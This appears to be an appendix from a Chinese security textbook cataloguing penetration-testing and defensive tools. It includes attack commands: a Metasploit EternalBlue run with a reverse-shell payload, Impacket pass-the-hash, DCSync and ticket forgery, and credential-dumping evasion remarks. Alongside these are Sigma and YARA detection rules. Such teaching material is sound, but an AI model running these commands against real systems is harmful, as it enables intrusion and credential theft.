




# 附录B 工具总表

## 概述

网络安全是一门高度依赖工具的学科。工欲善其事，必先利其器——但工具本身不是目的，**理解工具背后的原理、掌握工具的选择方法、熟练运用工具解决实际问题**才是关键。本附录汇总了网络安全攻防领域最常用、最成熟的工具，按用途分为14个大类，涵盖信息收集、漏洞扫描、渗透利用、防御检测、密码破解等完整攻击链。

### 本附录的使用方法

1. **按需查阅**：根据当前任务场景，直接跳转到对应分类
2. **横向对比**：同一分类下的工具可以互补使用，建议根据项目需求组合搭配
3. **纵向深入**：每个工具都标注了学习曲线（⭐~⭐⭐⭐⭐⭐），初学者优先选择低学习曲线的工具
4. **关注生态**：部分工具属于同一生态（如 ProjectDiscovery 全家桶），掌握一个后其他工具上手极快

### 工具标注说明

| 标注 | 含义 |
|------|------|
| 🟢 开源免费 | 开源协议（MIT/Apache/GPL等），可自由使用 |
| 🟡 开源+商业版 | 核心开源，高级功能需商业授权 |
| 🔴 商业软件 | 需购买许可证 |
| ⭐~⭐⭐⭐⭐⭐ | 学习曲线：⭐最易上手，⭐⭐⭐⭐⭐需长期投入 |
| 🏆 必装推荐 | 该分类中强烈推荐优先掌握的工具 |
| 🔥 高频使用 | 实际工作中使用频率极高的工具 |

### 工具选型的核心原则

- **目的优先**：先明确要解决什么问题，再选择工具，而非反过来
- **组合优于单体**：单一工具往往无法覆盖所有场景，工具链组合才能形成完整能力
- **熟悉优于流行**：深度掌握一个工具比浅尝辄止十个工具更有价值
- **开源优先**：同等能力下优先选择开源工具，便于定制和审计
- **社区活跃度**：关注 GitHub Stars、更新频率、Issue 响应速度，这决定了工具的生命力

---

## B.1 信息收集与侦察

信息收集是渗透测试的第一步，也是最关键的一步。信息的全面性直接决定了攻击面的广度和深度。信息收集分为**被动收集**（不直接接触目标）和**主动收集**（直接探测目标）两种方式。

> **关键理念**：被动收集永远优先于主动收集。先从公开信息（OSINT）入手，减少暴露自身位置的风险；在被动信息不够时再转为主动探测。

### B.1.1 子域名枚举

子域名枚举的目标是发现目标组织在互联网上的所有资产入口。大型企业往往有数百甚至数千个子域名，其中不少是开发/测试环境，安全防护薄弱。

| 工具 | 语言 | 许可证 | 曲线 | 说明 | 地址 |
|------|------|--------|------|------|------|
| subfinder 🏆 | Go | MIT | ⭐ | 被动子域名枚举首选，集成多个公开源（证书透明度、DNS数据库、搜索引擎等），速度快 | github.com/projectdiscovery/subfinder |
| amass | Go | Apache | ⭐⭐⭐ | OWASP 出品的综合枚举工具，支持主动/被动/暴力多种模式，功能最全面但配置复杂 | github.com/owasp-amass/amass |
| assetfinder | Go | MIT | ⭐ | 轻量级被动发现，适合快速扫描 | github.com/tomnomnom/assetfinder |
| knockpy | Python | MIT | ⭐ | 基于字典的子域名暴力枚举 | github.com/guelfoweb/knock |
| dnsx | Go | MIT | ⭐ | DNS 探测工具，支持多种 DNS 记录查询，常与 subfinder 配合使用 | github.com/projectdiscovery/dnsx |
| shuffledns | Go | MIT | ⭐ | DNS 暴力枚举+通配符处理，大规模 DNS 扫描必备 | github.com/projectdiscovery/shuffledns |
| OneForAll | Python | BSD-3 | ⭐⭐ | 国内开发者出品的综合子域名收集工具，集成多种引擎和API | github.com/shmilylty/OneForAll |
| subdominator | Python | MIT | ⭐ | 被动子域名枚举，支持自定义数据源 | github.com/harleo/subdominator |

**实战推荐组合**：`subfinder`（快速被动枚举）→ `dnsx`（验证存活）→ `httpx`（HTTP探测），这是 ProjectDiscovery 社区的标准工作流，三者通过管道串联可实现全自动化的子域名发现与验证。

```bash
# 标准子域名发现工作流
subfinder -d target.com -silent | dnsx -silent -a -resp | httpx -silent -title -status-code
```

**常见误区**：不要只用一个子域名枚举工具。不同工具依赖不同的数据源，单一工具的覆盖率通常只有 60-70%。推荐使用 2-3 个工具并集，再通过 `dnsx` 去重验证。

### B.1.2 端口与服务扫描

端口扫描用于发现目标开放的网络服务。不同端口扫描器在速度、准确度、隐蔽性之间有不同取舍。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| nmap 🏆🔥 | Nmap PL | ⭐⭐ | 行业标准，支持 SYN/ACK/UDP 等多种扫描方式，脚本引擎（NSE）可扩展 | nmap.org |
| masscan | AGPL | ⭐⭐ | 可在 6 分钟内扫描整个 IPv4 地址空间（~2^32），适合大规模资产发现 | github.com/robertdavidgraham/masscan |
| rustscan | MIT | ⭐ | Rust 编写的快速端口扫描器，先快速定位再调用 nmap 深度分析 | github.com/RustScan/RustScan |
| naabu | MIT | ⭐ | ProjectDiscovery 出品的纯 Go 端口扫描器，轻量快速，适合管道工作流 | github.com/projectdiscovery/naabu |
| zmap | Apache | ⭐⭐⭐ | 互联网范围的单包扫描器，用于研究级的大规模网络测量 | zmap.io |
| fscan | MIT | ⭐ | 综合内网扫描工具，端口扫描+漏洞检测+密码爆破一体 | github.com/shadow1ng/fscan |

**nmap 常用命令速查**：

```bash
# SYN 半开扫描（最常用，需 root 权限）
nmap -sS -p- -T4 target.com

# 服务版本检测 + 默认脚本
nmap -sV -sC target.com

# 使用 NSE 脚本进行漏洞检测
nmap --script vuln target.com

# UDP 扫描（慢但发现更多服务）
nmap -sU --top-ports 100 target.com

# 输出 XML 格式供其他工具解析
nmap -oX scan.xml -sV -sC target.com
```

**实战推荐**：常规渗透用 `rustscan` 快速定位 → `nmap -sV -sC` 深度识别 → `nuclei` 检测漏洞。大规模盘点用 `masscan` 全端口 → `httpx` 探测 → `nuclei` 扫描。

### B.1.3 Web 信息收集

Web 应用是现代企业最大的攻击面。Web 信息收集的目标是理解目标的技术架构、路径结构、参数接口和潜在入口点。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| httpx 🏆 | MIT | ⭐ | 多功能 HTTP 探测，支持状态码/标题/技术指纹/WAF检测 | github.com/projectdiscovery/httpx |
| whatweb | GPL-3 | ⭐ | Web 指纹识别，识别 CMS、框架、JavaScript 库等 | github.com/urbanadventurer/WhatWeb |
| wappalyzer | — | ⭐ | 商业级 Web 技术检测（浏览器扩展+API），精确度最高 | wappalyzer.com |
| katana | Apache | ⭐ | 下一代 Web 爬虫，支持 headless 模式和 JavaScript 渲染 | github.com/projectdiscovery/katana |
| waybackurls | MIT | ⭐ | 从 Wayback Machine 批量收集历史 URL | github.com/tomnomnom/waybackurls |
| gau | MIT | ⭐ | 从多个公开来源（Wayback、OTX、Common Crawl等）收集 URL | github.com/lc/gau |
| ParamSpider | MIT | ⭐ | 自动发现 URL 中的参数，为 SQLi/XSS 做准备 | github.com/devanshbatham/paramspider |
| subjs | MIT | ⭐ | 从 JS 文件中提取子域名和 URL | github.com/lc/subjs |
| LinkFinder | MIT | ⭐ | 从 JS 文件中提取链接端点 | github.com/GerbenJavo/LinkFinder |

**JavaScript 端点发现工作流**：现代 SPA 应用中，大量 API 端点隐藏在 JS 文件中。用 `katana` 爬取 → `subjs` 提取 JS 文件 → `LinkFinder` 解析端点 → `paramSpider` 发现参数，这条流水线是 Web 安全测试的标配。

### B.1.4 OSINT 工具

OSINT（开源情报）是从公开来源收集情报信息的技术。优秀的 OSINT 能力可以在不接触目标的情况下获得大量有价值的信息。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| theHarvester | MIT | ⭐ | 邮箱和子域名收集，集成多个搜索引擎 | github.com/laramies/theHarvester |
| Maltego 🔴 | 商业 | ⭐⭐⭐ | 可视化情报分析平台，图形化展示实体关系 | maltego.com |
| Shodan 🟡 | Freemium | ⭐ | 互联网设备搜索引擎，发现暴露的 IoT/工控设备 | shodan.io |
| Censys 🟡 | Freemium | ⭐ | 互联网资产搜索，侧重 TLS 证书和主机信息 | censys.io |
| FOFA 🟢 | 免费API | ⭐ | 网络空间资产搜索引擎，国内目标覆盖好 | fofa.info |
| ZoomEye 🟡 | Freemium | ⭐ | 知道创宇钟馗之眼，国内网络空间测绘 | zoomeye.org |
| SpiderFoot | MIT | ⭐⭐ | 自动化 OSINT 框架，支持 200+ 数据源 | github.com/smicallef/spiderfoot |
| Recon-ng | BSD | ⭐⭐ | OSINT 框架，模块化设计，类似 Metasploit | github.com/lanmaster53/recon-ng |
| OSINT Framework | — | ⭐ | OSINT 工具集合网站，按类别索引 | osintframework.com |

**OSINT 预算建议**：Shodan 和 Censys 的免费额度足够个人学习使用；企业级渗透测试建议订阅付费计划以获取更全面的数据。

---

## B.2 Web 安全测试

Web 安全测试是渗透测试中最常见的场景。攻击者和防御者都在不断进化，工具也需要持续更新。本节覆盖从漏洞发现到利用的完整工具链。

### B.2.1 漏洞扫描

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Burp Suite 🏆🔥 | 🟡 社区版免费+专业版$449/年 | ⭐⭐⭐ | Web 安全测试平台标杆，集代理、扫描、爬虫、利用于一体 | portswigger.net |
| OWASP ZAP 🏆 | Apache | ⭐⭐ | 开源 Web 安全扫描器，Burp Suite 的最佳开源替代品 | zaproxy.org |
| Nikto | GPL-2 | ⭐ | Web 服务器扫描器，检测已知漏洞和配置问题 | cirt.net/Nikto2 |
| Nuclei 🏆🔥 | MIT | ⭐ | 基于模板的漏洞扫描器，模板库覆盖 4000+ 漏洞类型 | github.com/projectdiscovery/nuclei |
| sqlmap 🏆🔥 | GPL-2 | ⭐⭐ | SQL 注入自动化检测和利用，功能最强大的 SQLi 工具 | sqlmap.org |
| WPScan | GPL-3 | ⭐ | WordPress 专项安全扫描 | wpscan.com |
| ffuf 🏆🔥 | MIT | ⭐ | 高性能 Web Fuzzer，用于目录/参数/模糊测试 | github.com/ffuf/ffuf |
| dirsearch | MIT | ⭐ | 目录和文件暴力枚举 | github.com/maurosoria/dirsearch |
| gobuster | Apache | ⭐ | 目录/DNS/虚拟主机暴力枚举 | github.com/OJ/gobuster |
| nuclei-templates | MIT | ⭐ | Nuclei 漏洞模板库，社区维护 4000+ 检测模板 | github.com/projectdiscovery/nuclei-templates |

**工具对比：ffuf vs gobuster vs dirsearch**

- **ffuf**：速度最快，支持多线程和多种匹配规则，适合高级用户
- **gobuster**：支持 DNS/虚拟主机枚举，功能更全面
- **dirsearch**：开箱即用，内置常见字典，适合快速上手

```bash
# ffuf 目录枚举示例
ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,301,302,403

# ffuf 参数模糊测试
ffuf -u "https://target.com/page?id=FUZZ" -w params.txt -fs 4242
```

**实战推荐**：日常测试用 `Burp Suite`；批量检测用 `nuclei`；目录枚举用 `ffuf`；SQLi 专项用 `sqlmap`。

### B.2.2 漏洞利用

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Metasploit 🏆🔥 | BSD+商业 | ⭐⭐⭐ | 渗透测试框架之王，2000+ 攻击模块，从漏洞利用到后渗透 | metasploit.com |
| Pwntools 🏆 | MIT | ⭐⭐⭐ | Python CTF/漏洞利用库，编写自动化利用脚本的首选 | github.com/Gallopsled/pwntools |
| ysoserial | MIT | ⭐⭐ | Java 反序列化漏洞利用，集成了 30+ gadget chain | github.com/frohoff/ysoserial |
| HackTools | MIT | ⭐ | 浏览器扩展工具集 | github.com/LasCC/Hack-Tools |
| searchsploit | GPL-3 | ⭐ | ExploitDB 本地搜索工具 | github.com/offensive-security/exploitdb |

**Metasploit 工作流示例**：

```bash
# 搜索漏洞利用模块
msfconsole
msf6 > search eternalblue

# 使用漏洞利用模块
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS target.com
msf6 > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.14.5
msf6 > exploit
```

### B.2.3 代理与抓包

代理工具是 Web 安全测试的基础设施。通过拦截 HTTP/HTTPS 请求和响应，安全测试人员可以理解应用行为、发现隐藏漏洞。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Burp Suite 🏆 | 🟡 商业+社区版 | ⭐⭐⭐ | 最主流的 Web 代理 | portswigger.net |
| mitmproxy 🏆 | MIT | ⭐⭐ | Python 中间人代理，支持命令行和 Web 界面 | mitmproxy.org |
| Charles | 商业 | ⭐ | 跨平台 HTTP 代理，适合移动应用测试 | charlesproxy.com |
| Wireshark 🏆🔥 | GPL-2 | ⭐⭐⭐ | 网络协议分析行业标准 | wireshark.org |
| tcpdump | BSD | ⭐⭐ | 命令行抓包工具 | tcpdump.org |
| Fiddler | 免费(Windows) | ⭐ | Windows HTTP 调试代理 | telerik.com/fiddler |

**证书安装要点**：拦截 HTTPS 前必须安装并信任代理的根证书：
- **Chrome**：Settings → Privacy and Security → Manage Certificates → Import
- **Firefox**：独立证书存储，需在 Firefox 中单独导入
- **Android**：设置 → 安全 → 从存储设备安装证书
- **iOS**：安装描述文件后，还需在 设置 → 通用 → 关于本机 → 证书信任设置 中启用

**mitmproxy 脚本示例**：

```python
# response.py - 自动修改响应内容
def response(context, flow):
    if "text/html" in flow.response.headers.get("content-type", ""):
        flow.response.content = flow.response.content.replace(
            b"</body>",
            b"<script>alert('mitmproxy')</script></body>"
        )
```

---

## B.3 内网渗透

内网渗透是在获得初始访问权后，向网络纵深推进的过程。内网环境复杂度远超外网，需要理解 AD（Active Directory）、Kerberos、NTLM 等协议和机制。

### B.3.1 内网信息收集

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| BloodHound 🏆 | GPL-3 | ⭐⭐⭐ | AD 攻击路径分析，用图论可视化域内关系 | github.com/BloodHoundAD |
| SharpHound | GPL-3 | ⭐⭐ | BloodHound 的数据收集器（C#编写） | github.com/BloodHoundAD/SharpHound |
| ADRecon | GPL-3 | ⭐⭐ | AD 侦察报告生成 | github.com/adrecon/ADRecon |
| PowerView | BSD | ⭐⭐ | PowerShell AD 枚举脚本集 | github.com/PowerShellMafia/PowerSploit |
| PingCastle | 免费(评估) | ⭐ | AD 安全评估工具 | pingcastle.com |
| ldapsearch | OpenLDAP | ⭐⭐ | LDAP 查询工具 | OpenLDAP 官方 |
| SharpShares | GPL-3 | ⭐ | 网络共享枚举工具 | github.com/mitchellroberts/SharpShares |

**BloodHound 使用流程**：

1. 在攻击机上启动 BloodHound GUI（需 Neo4j 数据库）
2. 在目标域内运行 SharpHound 收集数据：`SharpHound.exe -c All`
3. 上传 JSON 文件到 BloodHound
4. 分析最短攻击路径：Domain Users → Domain Admins

```powershell
# SharpHound 数据收集
# -c All: 收集所有数据类型
# --Stealth: 静默模式，减少网络流量
SharpHound.exe -c All --Stealth --OutputDirectory C:\\temp
```

### B.3.2 横向移动

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Impacket 🏆 | Apache | ⭐⭐⭐ | Python 网络协议库，内网工具链的基石 | github.com/fortra/impacket |
| CrackMapExec 🏆 | BSD | ⭐⭐ | 内网"瑞士军刀"，支持 SMB/WinRM/LDAP 批量操作 | github.com/byt3bl33d3r/CrackMapExec |
| Evil-WinRM | MIT | ⭐ | WinRM 后渗透，交互式 PowerShell | github.com/Hackplayers/evil-winrm |
| PsExec | 免费(Sysinternals) | ⭐ | 远程命令执行（微软官方） | Microsoft Sysinternals |
| Rubeus | BSD | ⭐⭐⭐ | Kerberos 协议操作工具集 | github.com/GhostPack/Rubeus |
| Kerbrute | MIT | ⭐ | Kerberos 用户枚举和密码喷洒 | github.com/ropnop/kerbrute |
| Coercer | MIT | ⭐⭐ | NTLM 中继攻击自动化 | github.com/p0dalirius/Coercer |

**Impacket 常用工具**：

```bash
# Pass-the-Hash 横向移动
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:da76f... target

# DCSync 攻击（从域控提取密码哈希）
secretsdump.py corp.local/Administrator:password@dc01.corp.local

# Kerberos 票据传递
ticketer.py -nthash hash -domain-sid S-1-5-21-... -domain corp.local Administrator
```

### B.3.3 凭证获取

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Mimikatz 🏆 | MIT | ⭐⭐⭐ | Windows 凭证提取神器，从 LSASS 内存中提取密码/哈希/Kerberos 票据 | github.com/gentilkiwi/mimikatz |
| secretsdump | Apache | ⭐⭐ | Impacket 组件，支持 DCSync、LSA 注册表转储 | Impacket 内置 |
| LaZagne | GPL-3 | ⭐ | 本地密码恢复，从浏览器/邮件/数据库提取存储的密码 | github.com/AlessandroZ/LaZagne |
| hashcat 🏆 | MIT | ⭐⭐⭐ | GPU 密码哈希破解，支持 300+ 哈希类型 | hashcat.net |
| John the Ripper | GPL-2 | ⭐⭐ | 密码破解经典工具 | openwall.com/john |
| nanodump | GPL-3 | ⭐⭐ | LSASS 内存转储（Mimikatz 的现代替代） | github.com/helpsystems/nanodump |
| Pypykatz | MIT | ⭐⭐ | Mimikatz 的纯 Python 实现 | github.com/skelsec/pypykatz |

**安全检测点**：Mimikatz 会访问 LSASS 进程内存，所有现代 EDR 都会检测此行为。实际红队行动中，通常使用 Nanodump 或 Pypykatz 配合各种绕过技术（如 dumper 模块、SSP 注入等）。

### B.3.4 提权

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| linPEAS 🏆 | MIT | ⭐ | Linux 提权检查，自动扫描 SUID/SGID/capabilities/cron | github.com/carlospolop/PEASS-ng |
| winPEAS 🏆 | MIT | ⭐ | Windows 提权检查，扫描服务配置/注册表/计划任务 | github.com/carlospolop/PEASS-ng |
| PowerUp | BSD | ⭐ | PowerShell 提权检查 | github.com/PowerShellMafia/PowerSploit |
| GTFOBins 🏆 | — | ⭐ | Linux 可利用二进制文件/函数索引 | gtfobins.github.io |
| LOLBAS 🏆 | — | ⭐ | Windows 可利用系统工具索引 | lolbas-project.github.io |
| linux-exploit-suggester | MIT | ⭐ | 基于内核版本检查已知漏洞 | github.com/mzet-/linux-exploit-suggester |

**提权思路框架**：



---

## B.4 C2 框架

C2（Command & Control）框架是红队行动的核心基础设施，用于管理受控主机、执行命令、横向移动。

| 框架 | 语言 | 许可证 | 曲线 | 说明 | 地址 |
|------|------|--------|------|------|------|
| Cobalt Strike 🔴 | Java | 商业($5950/年) | ⭐⭐⭐ | 商业 C2 标杆，功能最全、社区最大、检测签名也最多 | cobaltstrike.com |
| Sliver 🏆 | Go | MIT | ⭐⭐ | BishopFox 出品，开源 C2 新星，支持 mTLS/HTTP/DNS 多种协议 | github.com/BishopFox/sliver |
| Mythic | Python+TS | BSD | ⭐⭐⭐ | 高度可定制，支持多种 Agent | github.com/its-a-feature/Mythic |
| Havoc | C++/Python | MIT | ⭐⭐ | 现代化 C2，支持 Yara 规则集成 | github.com/HavocFramework/Havoc |
| Brute Ratel 🔴 | C/C++ | 商业($5000+/年) | ⭐⭐⭐ | 专注 EDR 绕过，隐蔽性极强 | bruteratel.com |
| Covenant | C# | MIT | ⭐⭐⭐ | .NET C2，适合 Windows 环境 | github.com/cobbr/Covenant |
| Empire | Python | BSD-3 | ⭐⭐ | PowerShell/Python 后渗透框架 | github.com/BC-SECURITY/Empire |
| PoshC2 | Python | BSD | ⭐⭐ | Python+C# 混合 C2 | github.com/nettitude/PoshC2 |

**C2 选型建议**：
- **预算充足**：Cobalt Strike（成熟度最高）或 Brute Ratel（EDR 绕过最强）
- **预算有限**：Sliver（性能好）或 Havoc（界面好）
- **团队协作**：Mythic（多用户支持最佳）
- **快速上手**：Sliver（CLI 操作直观）

---

## B.5 蓝队工具

蓝队（防御方）的核心任务是**检测、响应、恢复**。蓝队工具覆盖从日志收集、威胁检测到事件响应的完整防御链。

### B.5.1 SIEM 与日志管理

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Splunk 🏆 | 🟡 500MB/天免费+商业 | ⭐⭐⭐ | 企业级 SIEM 标杆，搜索能力强，价格昂贵 | splunk.com |
| Elastic Stack 🏆 | ELv2+商业 | ⭐⭐⭐ | ELK 日志平台，开源核心功能强大 | elastic.co |
| Wazuh 🏆 | Apache | ⭐⭐ | 开源 SIEM+HIDS+XDR，适合中小企业 | wazuh.com |
| Graylog | SSPL+商业 | ⭐⭐ | 开源日志管理，界面友好 | graylog.org |
| Microsoft Sentinel | 商业 | ⭐⭐⭐ | 云原生 SIEM，与 Azure/M365 深度集成 | azure.microsoft.com |
| Sigma 🏆 | — | ⭐ | 通用检测规则格式，可转换为各平台查询 | github.com/SigmaHQ/sigma |

**Sigma 规则示例**：

```yaml
title: Suspicious PowerShell Reflection Load
status: stable
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        Image|endswith: '\\powershell.exe'
        CommandLine|contains:
            - 'Reflection.Assembly'
            - 'LoadWithPartialName'
    condition: selection
```

### B.5.2 EDR 与终端安全

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Velociraptor 🏆 | AGPL | ⭐⭐ | 终端监控与数字取证平台 | github.com/Velocidex/velociraptor |
| OSSEC | GPL-2 | ⭐⭐ | 开源 HIDS | ossec.github.io |
| Sysmon 🏆 | 免费(Microsoft) | ⭐⭐ | Windows 系统监控 | Microsoft Sysinternals |
| osquery | Apache | ⭐⭐ | 用 SQL 查询终端信息 | osquery.io |
| GRR | Apache | ⭐⭐⭐ | Google 开源远程实时取证框架 | github.com/google/grr |
| CrowdStrike Falcon 🔴 | 商业 | ⭐⭐⭐ | 商业 EDR 标杆 | crowdstrike.com |

**Sysmon 关键事件ID**：Event ID 1（进程创建）、Event ID 3（网络连接）、Event ID 11（文件创建）、Event ID 13/14（注册表修改）。推荐使用 SwiftOnSecurity 的 sysmon-config 模板作为基础。

### B.5.3 恶意软件分析

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| YARA 🏆 | BSD | ⭐⭐ | 恶意软件特征识别规则引擎 | github.com/VirusTotal/yara |
| Cuckoo Sandbox | BSD | ⭐⭐⭐ | 开源自动化沙箱 | github.com/cuckoosandbox/cuckoo |
| VirusTotal 🟡 | Freemium | ⭐ | 在线恶意软件分析平台，聚合 70+ 引擎 | virustotal.com |
| Any.Run 🟡 | Freemium | ⭐⭐ | 交互式在线沙箱 | any.run |
| Ghidra 🏆 | Apache | ⭐⭐⭐ | NSA 开源逆向工程框架 | ghidra-sre.org |
| IDA Pro 🔴 | 商业 | ⭐⭐⭐⭐ | 逆向工程行业标准 | hex-rays.com |
| Binary Ninja | 商业 | ⭐⭐⭐ | 现代化逆向工具 | binary.ninja |
| Floss | Apache | ⭐⭐ | 自动字符串提取工具 | github.com/mandiant/flare-floss |

**YARA 规则示例**：

```yara
rule Malware_Strings {
    meta:
        description = "检测常见恶意软件字符串"
    strings:
        $s1 = "cmd.exe /c" nocase
        $s2 = "CreateRemoteThread" nocase
        $s3 = "VirtualAllocEx" nocase
        $mutex = { 4D 75 74 65 78 XX XX XX XX }
    condition:
        2 of ($s*) or $mutex
}
```

### B.5.4 网络安全监控

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Wireshark 🏆🔥 | GPL-2 | ⭐⭐⭐ | 网络协议分析行业标准 | wireshark.org |
| Zeek 🏆 | BSD | ⭐⭐⭐ | 网络安全监控框架 | zeek.org |
| Suricata 🏆 | GPL-3 | ⭐⭐ | 高性能 IDS/IPS，支持多线程 | suricata.io |
| Snort | GPL-2 | ⭐⭐ | 经典 IDS/IPS | snort.org |
| NetworkMiner | GPL-2 | ⭐⭐ | 网络取证工具 | networkminer.com |
| RITA | MIT | ⭐⭐ | 检测 C2 通信/扫描/数据泄露 | github.com/activecm/rita |
| Arkime | Apache | ⭐⭐⭐ | 全流量捕获和索引系统 | arkime.com |

**Zeek vs Suricata**：Zeek 侧重流量解析和日志生成（安全运营）；Suricata 侧重实时检测和拦截（边界防护）。最佳实践：两者互补使用。

---

## B.6 红队基础设施

红队基础设施是支撑整个攻击行动的底层架构。

### B.6.1 基础设施管理

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| Terraform 🏆 | BSL | ⭐⭐ | 基础设施即代码 | terraform.io |
| Ansible | GPL-3 | ⭐⭐ | 无代理自动化部署 | ansible.com |
| Docker 🏆 | Apache | ⭐⭐ | 容器化部署 | docker.com |
| Packer | BSL | ⭐⭐ | 自动化构建 VM 镜像 | packer.io |

**红队基础设施参考架构**：



- **Redirector**：流量重定向器（Nginx/域名前置），隔离 C2 真实 IP
- **C2 Server**：运行 C2 框架的服务器
- **Beacon**：被控主机上的 Agent

### B.6.2 钓鱼平台

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| GoPhish 🏆 | MIT | ⭐ | 开源钓鱼平台，界面友好 | getgophish.com |
| Evilginx2 🏆 | MIT | ⭐⭐ | 高级钓鱼代理，支持绕过 MFA | github.com/kgretzky/evilginx2 |
| Modlishka | MIT | ⭐⭐ | 反向代理钓鱼 | github.com/drk1wi/modlishka |
| King Phisher | BSD | ⭐ | 钓鱼邮件平台，支持 A/B 测试 | github.com/securestate/king-phisher |

**钓鱼绕过 MFA 原理**：Evilginx2 作为反向代理，拦截用户的用户名/密码和 MFA 令牌，转发给真实网站。攻击者获得的是已认证的会话 Cookie。**硬件安全密钥（如 YubiKey）**是防御此类攻击的最有效方式——它们不支持会话中继。

### B.6.3 隐蔽通信

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| domain-fronting | — | ⭐⭐⭐ | 域名前置，利用 CDN 隐藏 C2 地址 | — |
| DNS tunneling | — | ⭐⭐ | DNS 隧道通信 | — |
| Malleable C2 | 商业 | ⭐⭐⭐ | 自定义 C2 流量特征 | — |
| Stunnel | GPL | ⭐⭐ | SSL/TLS 隧道 | stunnel.org |

---

## B.7 密码破解

密码破解是渗透测试中获取凭据的重要手段。现代密码破解主要依赖 GPU 加速和智能字典策略。

| 工具 | 许可证 | 曲线 | 说明 | 地址 |
|------|--------|------|------|------|
| hashcat 🏆🔥 | MIT | ⭐⭐⭐ | GPU 密码破解之王，支持 300+ 哈希类型 | hashcat.net |
| John the Ripper 🏆 | GPL-2 | ⭐⭐ | 密码破解经典工具 | openwall.com/john |
| CrackStation | — | ⭐ | 在线哈希查询（彩虹表） | crackstation.net |
| CeWL | GPL-3 | ⭐ | 从目标网站爬取关键词生成字典 | github.com/digininja/CeWL |
| Mentalist | GPL-3 | ⭐⭐ | 可视化密码字典生成器 | github.com/sc0tfree/mentalist |
